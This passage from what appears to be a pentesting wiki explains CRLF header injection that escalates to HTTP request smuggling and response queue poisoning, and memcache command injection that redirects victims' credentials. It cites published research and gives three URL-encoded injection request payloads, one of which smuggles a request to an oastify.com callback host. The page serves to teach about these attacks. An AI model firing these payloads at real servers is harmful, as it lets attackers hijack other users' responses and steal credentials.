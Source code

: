 ### Header Injection to Request Smuggling

For more info about this technique and potential problems [**check the original source**](https://portswigger.net/research/making-http-header-injection-critical-via-response-queue-poisoning).

You can inject essential headers to ensure the **back-end keeps the connection open** after responding to the initial request:

```
GET /%20HTTP/1.1%0d%0aHost:%20redacted.net%0d%0aConnection:%20keep-alive%0d%0a%0d%0a HTTP/1.1
```

Afterward, a second request can be specified. This scenario typically involves [HTTP request smuggling](http-request-smuggling/), a technique where extra headers or body elements appended by the server post-injection can lead to various security exploits.

**Exploitation:**

1. **Malicious Prefix Injection**: This method involves poisoning the next user's request or a web cache by specifying a malicious prefix. An example of this is:

`GET /%20HTTP/1.1%0d%0aHost:%20redacted.net%0d%0aConnection:%20keep-alive%0d%0a%0d%0aGET%20/redirplz%20HTTP/1.1%0d%0aHost:%20oastify.com%0d%0a%0d%0aContent-Length:%2050%0d%0a%0d%0a HTTP/1.1`

2. **Crafting a Prefix for Response Queue Poisoning**: This approach involves creating a prefix that, when combined with trailing junk, forms a complete second request. This can trigger response queue poisoning. An example is:

`GET /%20HTTP/1.1%0d%0aHost:%20redacted.net%0d%0aConnection:%20keep-alive%0d%0a%0d%0aGET%20/%20HTTP/1.1%0d%0aFoo:%20bar HTTP/1.1`

### Memcache Injection

Memcache is a **key-value store that uses a clear text protocol**. More info in:

{% content-ref url="../network-services-pentesting/11211-memcache/" %}
[11211-memcache](../network-services-pentesting/11211-memcache/)
{% endcontent-ref %}

**For the full information read the**[ **original writeup**](https://www.sonarsource.com/blog/zimbra-mail-stealing-clear-text-credentials-via-memcache-injection/)

If a platform is taking **data from an HTTP request and using it without sanitizing** it to perform **requests** to a **memcache** server, an attacker could abuse this behaviour to **inject new memcache commands**.

For example, in the original discovered vuln, cache keys were used to return the IP and port a user shuold connect to, and attackers were able to **inject memcache comands** that would **poison** the **cache to send the vistims details** (usrnames and passwords included) to the attacker servers:

<figure><img src="../.gitbook/assets/image (659).png" alt="https://assets-eu-01.kc-usercontent.com/d0f02280-9dfb-0116-f970-137d713003b6/ba72cd16-2ca0-447b-aa70-5cde302a0b88/body-578d9f9f-1977-4e34-841c-ad870492328f_10.png?w=1322&#x26;h=178&#x26;auto=format&#x26;fit=crop"><figcaption></figcaption></figure>

Moreover, researchers also discovered that they could desync the memcache responses to send the attackers ip and ports to users whose email the attacker didn't know:

<figure><img src="../.gitbook/assets/image (637).png" alt="https://assets-eu-01.kc-usercontent.com/d0f02280-9dfb-0116-f970-137d713003b6/c6c1f3c4-d244-4bd9-93f7-2c88f139acfa/body-3f9ceeb9-3d6b-4867-a23f-e0e50a46a2e9_14.png?w=1322&#x26;h=506&#x26;auto=format&#x26;fit=crop"><figcaption></figcaption></figure>
